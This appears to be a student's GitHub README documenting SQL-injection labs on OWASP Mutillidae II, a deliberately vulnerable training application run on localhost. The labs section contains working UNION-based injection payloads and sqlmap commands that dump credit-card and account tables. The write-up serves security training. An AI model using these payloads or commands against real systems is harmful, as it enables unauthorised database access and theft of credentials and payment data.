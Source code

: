 # mutillidae II 
pentesting playground | owasp labs |  sql-injection

## Introduction  💫 ##


<p align="left">
This repo is about OWASP Mutillidae II ( updating content often)
OWASP Mutillidae II is a free, open-source, deliberately vulnerable web application providing a target for web-security training. Mutillidae can be installed on Linux and Windows using LAMP, WAMP, and XAMMP. It is pre-installed on SamuraiWTF and OWASP BWA. The existing version can be updated on these platforms. With dozens of vulnerabilities and…

  *Available here for download and work in local or remote it is your Choise https://github.com/webpwnized/mutillidae*
 *Available here for run with Docker https://github.com/webpwnized/mutillidae-docker*
  
 We are working in this section labs for *SQL-Injection*
 
<img style="width:550px;height:400px;border-radius:10px;" src="https://github.com/anb100/mutillidae/blob/main/screenshots_/sql-injection.png">
</p>

## Vulnerabilities in this project  : ##
 
  - XPath Injection 
  - XSS
  - SQL-I
  - DOM Injection
 
 <p>More than a 40 vulns in the project</p>

Este repositorio contiene los retos de laboratorio Mutillidae II , descritos y con capturas para la asignatura de puesta en producción.


## Installation Mutillidae

Options:
  1. There are many options for install this project , for instance in localhost with *LAMP,XAMP,WAMP* or by containers in *Docker* I show both and I tried both
  as well.
  Here is the link for install in Docker ![ install Docker and Mutillidae ](https://www.youtube.com/watch?v=9RH4l8ff-yg) 
  *Procedure  in Docker:* 
  Download from here ![ install Docker and Mutillidae ](https://github.com/webpwnized/mutillidae-docker) clone the entire repo and follow this steps , after download go to the /mutillidae-docker folder , then just run docker-compose up .
  ![docker is ready](https://github.com/anb100/mutillidae/blob/main/screenshots_/Docker/Docker-compose-up.png) 
  After this you can browser through http: for continue the installation. just a few ajustements in database and thats all.
  Ready for SQL laps.
  
  2. Installation in XAMP or LAMP just clone this repo ![Mutillidae](https://github.com/webpwnized/mutillidae) in htdocs - www-data - etc.. and run http://127.0.0.1/mutillidae
  Activate *MYSQL and APACHE* from Control Panel.
  
  4. Read carfully the Instructions about database configuratin and *setup* .
  5. Start the labs  .
  
  
## SQL- Injection Labs Timeline 

This labs are documented in many yt videos and now here. I try to solve the labs following the instructions and reading the hints.


  - __Lab 6 SQL-I__
  <p> En este lab nos vamos a dirigir a user-info.php y podemos analizar el código de login.php . </p>
  
 <img style="width:550px;height:400px;border-radius:10px;" src="https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%206/User-lookup-SQL.png" >
   
 - __Lab 7 Walk Through__ 
 <p> First of all we need to go to /user-info.php this login is vulnerable to sql-injection I checked it before with sqlmap .
 This labs consist in bypass the login with jeremy password<p>
 
  ![bypass](https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%207%20Walkthrough/Sin%20t%C3%ADtulo.png)
 
 - __Lab 9 Finding Number of Columns__
  <p> In this lab we need to check how many columns has *the table Accounts * emulating this
   [] Select * from accounts Where username=''$ AND password='' 
   [] The $ is located where the injection is to put in (' ORDER BY 7 #) end with a hashtag for comment the *and password* . 
   [] ![obtenerColumnas](https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%209%20Walkthrough/numero%20de%20columnas.png)
   </p>
   [] Username: ' UNION SELECT 1,@@VERSION,3,4,5,6,7 -- - 
   This show the version of this database
   [] Username: ' UNION SELECT 1,SCHEMA_NAME,3,4,5,6,7 FROM information_schema.schemata  -- -
   Show the tables in database
  
  - __Lab 10 : SQL Injection - Pivoting with SQL iNjection__ 
Hint : It is possible to use SQL injection on the User Info page to access other database tables besides the user database table

Start: /user-info.php 

  - __Lab 11 SQLMap__ 
![sqlmap](https://github.com/anb100/mutillidae/blob/main/screenshots_/Lab%2011/--tables-D--dbs.png)

Commands Used in this lab: 
CC data --> $sqlmap -u 127.0.0.1/index.php?page=user-info.php&username=1" --dump -D dumpfile -T credit_cards

Password data --> $sqlmap -u 127.0.0.1/index.php?page=user-info.php&username=1" --dump -D dumpfile -T accounts

extra args: --level=2 / --risk=1

Database Extraction Command --> sqlmap -u 'http://127.0.0.1/index.php?page=user-info.php' --data='username=pa&password=ra&user-info-php-submit-button=View+Account+Details' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' --cookie="showhints=1;security_level=0; PHPSESSID=hereyoursession;" --dbs

Tables Extraction Command --> sqlmap -u 'http://127.0.0.1/index.php?page=user-info.php' --data='username=pa&password=ra&user-info-php-submit-button=View+Account+Details' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' --cookie="showhints=1;security_level=0; PHPSESSID=hereyoursession;" -D mutillidae --tables 

A Specific table  Extraction Command --> sqlmap -u 'http://127.0.0.1/index.php?page=user-info.php' --data='username=pa&password=ra&user-info-php-submit-button=View+Account+Details' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' --cookie="showhints=1;security_level=0; PHPSESSID=hereyoursession;" -D mutillidae -T credit_cards --dump

<details>
<summary>Details</summary>
<br />
Coding...

</details>


#### Resources Used

| ID | Bibliography                     | Repository Link                                                  |
|----|----------------------------------|----------------------------------------------------------------- |
| 1  | _Github Fancy_                   | https://github.com/abhisheknaiidu/awesome-github-profile-readme  |
| 2  | _Github Page Author of this repo_| https://github.com/anb100                                        |
| 3  | _Github CheatSheet_              | https://github.com/tchapi/markdown-cheatsheet/blob/master/README.md |


